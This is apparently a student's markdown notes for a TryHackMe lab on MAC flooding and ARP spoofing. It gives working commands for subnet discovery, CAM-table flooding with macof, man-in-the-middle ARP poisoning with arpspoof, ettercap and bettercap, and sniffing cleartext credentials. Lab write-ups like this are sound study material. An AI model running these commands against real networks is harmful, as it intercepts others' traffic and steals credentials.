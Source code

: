 # Notes — L2 MAC Flooding & ARP Spoofing


> These notes are ordered roughly by the room tasks: Initial Access, Discovery, Passive Sniffing, MAC Flooding sniffing, ARP Spoofing MITM (sniff & manipulate), Conclusion.


## Environment setup
- Start the TryHackMe machine and allow ~5 min for services to boot.
- From Kali (AttackBox or local VM) identify your interface: `ip a`
- Confirm connectivity: `ping -c 3 <target-ip>`


## 1) Initial access / Network discovery
- Use `netdiscover` or `arp-scan` to map the subnet.
- Example: `sudo arp-scan -l`
- Or: `sudo nmap -sn 10.10.0.0/24`
- Note the target's IP and MAC address for later.


## 2) Passive sniffing
- Start Wireshark or `tcpdump` on your interface to capture traffic without interfering.
- `sudo tcpdump -i eth0 -w passive.pcap` (replace `eth0`)
- Use filters to focus:
- Wireshark display filter for ARP: `arp`
- For HTTP: `http`


## 3) MAC Flooding — make switch act like a hub
- Tool: `macof` (part of `dsniff` package). `macof` floods a switch with fake MAC addresses to overflow its CAM table.
- Launch flooding (example):
- `sudo macof -i eth0` — floods from `eth0` and may fill switch MAC table.
- Alternative: use `Yersinia` or `Scapy` script to generate many src MAC addresses.


## 4) Sniff while MAC flooding
- While `macof` runs, start `tcpdump`/Wireshark to capture traffic destined to other hosts.
- `sudo tcpdump -i eth0 -w macflood.pcap`
- Inspect pcap in Wireshark to find interesting cleartext traffic (HTTP, credentials, etc.).


## 5) ARP Spoofing (MITM)
- Tools: `arpspoof` (dsniff), `ettercap`, `bettercap`.
- Identify IPs: victim and gateway. Example variables:
- `VICTIM=10.10.20.15`
- `GATEWAY=10.10.20.1`
- Enable IP forwarding on your attacker host:
- `sudo sysctl -w net.ipv4.ip_forward=1`
- Using arpspoof:
- `sudo arpspoof -i eth0 -t $VICTIM $GATEWAY`
- `sudo arpspoof -i eth0 -t $GATEWAY $VICTIM`
- Or use `bettercap` interactive: `sudo bettercap -iface eth0` then use `net.probe on`, `arp.spoof on` etc.


## 6) Sniffing & Manipulation
- With ARP spoofing in place, capture traffic with Wireshark or `tcpdump` to identify credentials.
- `ettercap` can perform active MITM and has filters to modify traffic (e.g., replace strings, inject content).
- Example: `sudo ettercap -T -q -M arp:sniff /$VICTIM// /$GATEWAY//`
- Remember to stop spoofing and restore ARP when done. `arpspoof` sends ARP replies and they time out; you can also send correct ARP replies to restore.


## 7) Cleanup
- Disable IP forwarding: `sudo sysctl -w net.ipv4.ip_forward=0`
- Kill flooding/spoofing processes: `pkill macof`, `pkill arpspoof`, `pkill ettercap`, `pkill bettercap`
- Optionally send correct ARP entries back to the network.


## Observations to record in the room
- Difference in packet capture before and after MAC flooding (more packets shown, other hosts' traffic visible)
- Evidence of ARP cache poisoning (arp table entries on victim changed)
- Any cleartext credentials or interesting protocol behaviour
